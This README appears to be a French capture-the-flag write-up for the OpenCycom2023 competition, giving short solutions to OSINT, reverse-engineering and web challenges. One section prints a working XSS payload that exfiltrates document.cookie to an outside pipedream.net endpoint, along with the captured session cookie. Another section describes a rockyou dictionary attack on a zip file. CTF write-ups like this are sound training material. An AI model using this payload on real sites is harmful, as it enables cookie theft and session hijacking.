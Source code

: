 # OpenCycom2023  
  
## Solutions  
  
### Minuit  
> 300, April 29th, 12:19:13 AM  
  
Chaque touche du piano = une lettre  
  
### Usurpception  
> 500, April 28th, 11:53:34 PM  
  
### Big blue whale  
> 100, April 28th, 11:17:34 PM  
  
J'ai pas capté, mais full utilisation de docker  
  
### Le Secret de la Tielle  
> 200, April 28th, 11:06:07 PM  
  
unzip disk.zip  
utilisation de e2fsck  
puis mount disk.img  
  
### Troubadour - Part5  
> 30, April 28th, 10:31:33 PM  
  
dans google: le café social Vincent lagaffe  
==> https://www.facebook.com/225817917437188/photos/pb.225817917437188.-2207520000../3312156235469992/?type=3&eid=ARClNwLpmDIVKs8kEm1K4HaU5FWj8fCt1PQFzcCx2EzyVQufcnIieGusJwIRH3uZkIMDAx-19McA59rv  
  
### XtraSuperSecure  
> 200, April 28th, 10:01:48 PM  

C'était formulaire pour pouvoir posté un commentaire, Comme le nom du challenge l'indique fallait utilisé un faille XSS.
sur [RequestBin](https://requestbin.com/) j'ai créer un projet pour pouvoir avoir une url ou envoyer les données.
J'ai ensuite envoyé ça dans le formulaire: 
```html
<IMG SRC="jav&#x09;ascript:fetch('https://eodp6vvn6mjjqbf.m.pipedream.net/?' + document.cookie);">
```

est en réponse au bout d'un moment on reçois:
```json
{
  "event": {
    "method": "GET",
    "path": "/",
    "query": {
      "flag": "OPC{b0y_I_l0v3_XSS}; connect.sid=s:8XG6k2A8x2iEnbbD1kD4xUT5KvF_ei3Z.NprtUNmR5jtodObQpm3Abx/Xs4RqrmmLd4cCIdskxyQ"
    },
    "client_ip": "40.66.35.70",
    "url": "https://eodp6vvn6mjjqbf.m.pipedream.net/?flag=OPC{b0y_I_l0v3_XSS};%20connect.sid=s%3A8XG6k2A8x2iEnbbD1kD4xUT5KvF_ei3Z.NprtUNmR5jtodObQpm3Abx%2FXs4RqrmmLd4cCIdskxyQ",
    "headers": {
      "host": "eodp6vvn6mjjqbf.m.pipedream.net",
      "sec-ch-ua": "",
      "sec-ch-ua-mobile": "?0",
      "user-agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/112.0.5615.138 Safari/537.36",
      "sec-ch-ua-platform": "\"\"",
      "accept": "image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8",
      "sec-fetch-site": "cross-site",
      "sec-fetch-mode": "no-cors",
      "sec-fetch-dest": "image",
      "referer": "http://127.0.0.1:3000/",
      "accept-encoding": "gzip, deflate, br",
      "accept-language": "en-US"
    }
  },
  "context": {
    "id": "2P4MqKbROMoJPABF9IeWQXU2NV2",
    "ts": "2023-04-28T20:01:29.418Z",
    "pipeline_id": null,
    "workflow_id": "p_7NCjOZL",
    "deployment_id": "d_JesWrZPW",
    "source_type": "COMPONENT",
    "verified": false,
    "hops": null,
    "test": false,
    "replay": false,
    "owner_id": "o_W7I7Zkg",
    "platform_version": "3.38.3",
    "workflow_name": "RequestBin",
    "resume": null,
    "trace_id": "2P4MqH7RCDeWDm7LWOBabKUQMkk"
  }
}
```
  
### Troubadour - Part4  
> 30, April 28th, 10:00:11 PM  
  
Google: ...,  
==> https://www.midilibre.fr/2020/03/25/sete-la-madone-de-richard-di-rosa-a-le-masque,8818528.php  
on obtient place de l'hospiltalet sète  
  
Apple map:  
==> Le cafe social  
  
### Industrial Secrets - Partie 2  
> 200, April 28th, 9:56:28 PM  
  
dans le terminal:  
ftp (url)  
(name part1)  
(pass part1)  
  
download file  
./gocrackzip dictattack ~/Downloads/Last_clients.zip rockyou.txt  
ouvrir le fichier généerer avec libre office  
  
### Troubadour - Part3  
> 30, April 28th, 9:52:23 PM  
  
meme lien que la part1  
  
### SECURE KEY CHECK3R (Medium)  
> 400, April 28th, 9:48:35 PM  
  
utilisation ghidra  
comprendre comment le fichier est compresser.  
  
### Ca C Cool  
> 400, April 28th, 9:04:37 PM  
  
utilisation ghidra  
little endian -> big endian, et xor les 13 premier avec les 13 dernier  
  
### Industrial Secrets - Partie 1  
> 200, April 28th, 8:32:24 PM  
  
tapper les commandes:  
username admin  
password (celui qui est donne dans lenoncé)  
setValvle (un nombre tres grand)  
set(jsp)Text (une string tres grande)  
get(jsp)FTP  
  
### SECURE KEY CHECK3R (Easy)  
> 300, April 28th, 8:26:10 PM  
  
utilisation ghidra  
avoir 1337 avec une somme des assci du message, en gardant les 3 char qui sont donnée  
  
### Troubadour - Part2  
> 30, April 28th, 7:49:39 PM  
  
meme lien que la part1  
  
### Troubadour - Part1  
> 30, April 28th, 7:48:49 PM  
  
Utilisation de google image  
==> https://www.alamyimages.fr/photo-image-sculpture-la-madone-du-quartier-haut-ou-la-mamma-de-richard-di-rosa-a-sete-languedoc-roussillon-france-86379457.html  
  
### Welcome  
> 10, April 28th, 7:44:19 P  
  
## Mes resultats  
  
### Classement: Top 2  
![Classement](./Result.png)  
![ScoreOverTime](./ScoreoverTime.png)  
  
